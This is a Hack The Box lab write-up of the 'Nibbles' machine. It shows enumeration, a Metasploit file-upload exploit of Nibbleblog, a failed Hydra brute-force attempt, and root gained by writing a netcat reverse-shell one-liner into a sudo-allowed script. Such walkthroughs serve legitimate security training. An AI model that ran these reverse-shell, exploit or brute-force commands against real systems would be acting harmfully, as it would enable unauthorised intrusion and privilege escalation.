






# Enumeration
---
## NMap
First scan failed, may have been a fluke. Scanned all ports just in case
```bash
─[us-vip-4]─[10.10.14.2]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ cat nibble.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-27 22:57 BST
Nmap scan report for 10.10.10.75
Host is up (0.0034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.46 seconds
```

## Manual Discovery
Navigating to the site we can see the following text and wappalyzer showing Apache and PHP:


Soure Code shows this:


Navigating to /nibbleblog present the following:


Ran a gubuster scan for the primary site, but /nibbleblog had much more interesting finds:
```bash
─[us-vip-4]─[10.10.14.2]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/27 23:08:17 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]  
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]                                  Progress: Progress: 15308 / 207644 (7.37%)        Progress: 21075 / 207644 (10.15%)         Progress:                                                                                                
===============================================================
2022/06/27 23:10:34 Finished
===============================================================
```

## Reading
Did some standard googling and came across a few interesting articles.
[CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-14941/Nibbleblog.html) - shows quite a few CVEs for this application
[WikiHak](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/) - demonstrates how to upload a shell in nibbleblog 4.0.3

## Continued Manual Discovery
Began to manually navigate to each folder underneath /nibbleblog that returned a 301. From the WikiHak link above, it pointed us to /nibbleblog/plugins/my_image. Digging down further I hit the following URL and can see a file upload 'browse...' button, but nothing indicating I can 'save' it to the server:
```html
http://10.10.10.75/nibbleblog/plugins/my_image/plugin.bit
```

We have an admin login @ admin.php:  


# Exploitation
---
## Metasploit
As much as I hate doing it, I started up msfconsole. Identified the appropriate exploit, set the lhost and rhost, but upon running 'exploit' it said I need to input a username and password.
```bash
msf6 > search nibbleblogo
[-] No results from search
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > LHOST=10.10.14.2
[-] Unknown command: LHOST=10.10.14.2
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 10.10.14.2
LHOST => 10.10.14.2
msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[-] Msf::OptionValidateError The following options failed to validate: USERNAME, PASSWORD
```

See Sub-section 'failures' for attempts at brute forcing the password. Ultimately, it seems that brute force will not work  - admin/nibbles is said to be the password according to numerous walk-throughs. Typically, I try to avoid walkthroughs, but this one stumped me. It does not appear that any of these walkthroughs demonstrate a method for brute-forcing either - it is said that they guessed this password correctly.

Moving on to metasploit, here are the options I ended up using:
```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog      yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > exploit
```

Called a shell from meterpreter after successul connection, checked username, started up bin/bash, found the user.txt, cat'd it out and submitted the flag.
```bash
meterpreter > shell
Process 19062 created.
Channel 0 created.
whoami
nibbler
/bin/bash -i
bash: cannot set terminal process group (1339): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

# Privilege Escalation
---
Sudo -l demonstrated that we can run a specific .sh file here:
```bash
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

It wasn't present immediately, but was able to 'unzip' the personal. zip and drill down to this specific location.
Reviewed the .sh file and it doesn't seem to be anything important (or functional).

Backed up the monitor.sh file (`cp monitor.sh monitor.sh.bak`)
Pulled the Netcat OpenBSD command from [Here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) and customized:
```bash
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f" > monitor.sh
```
Started the listener
Executed with sudo
Listener picked up

Confimed I was root, navigated to ~, cat'd out the root.txt and submitted the flag.

# Failures
---
## Source Code Review
Pulled the following string from the source code on the admin.php page for reference:
```html
<div class="title">Sign in to Nibbleblog admin area</div><form id="js_form" name="form" method="post"  ><div class="form_block" ><input class="username" name="username" type="text" placeholder="Username" autocomplete="off" maxlength="254" /></div><div class="form_block" ><input class="password" name="password" type="password" placeholder="Password" autocomplete="off" maxlength="254" /></div><div class="form_block" ><input type="checkbox" id="js_remember" name="remember" class="float"  value="1"/><label class="for_checkbox remember" for="js_remember" >Remember me</label><input type="submit" class="save" value="Login" /></div></form><a class="back" href="/nibbleblog/" >&larr;Back to blog</a>
```

## Burp Intercept
Started up proxy/intercept and sent through a failed login attempt to gather some additional info (looks like manual source code review would've been fine)
```
POST /nibbleblog/admin.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.10.75
Connection: close
Referer: http://10.10.10.75/nibbleblog/admin.php
Cookie: PHPSESSID=as0e24pp4s5nnfk2daegr6hjh6
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

```
GET /nibbleblog/admin/js/system.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.10.75/nibbleblog/admin.php
Cookie: PHPSESSID=as0e24pp4s5nnfk2daegr6hjh6
```

Just using 'username' and 'password' here, so that makes the Hydra run a little easier.
I had initially started by sending through the usual 'admin/admin', 'admin/password' but was locked out from attempting any further and had to reset the machine. We'll see if Hydra gets locked up, too.

From the above, we know the method is also 'post'. I grabbed the failure condition by sending through a failed admin/admin attempt:


## Hydra (Failed)
Began constructing brute force syntax via Hydra:
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password"  
```
I believe the syntax was correct (had also tried variations of LOGIN=LOGIN:Incorrect username or password), however, even in the walkthroughs I'm seeing there isn't any way to effectively brute force the password here. I see that also after however many failed attempts the site blacklists your IP, which can be remedied, but it doesn't seem to me that anyone was able to effectively smash this password. If you have a link to a walk-through that successfully does this, please let me know in the comments.
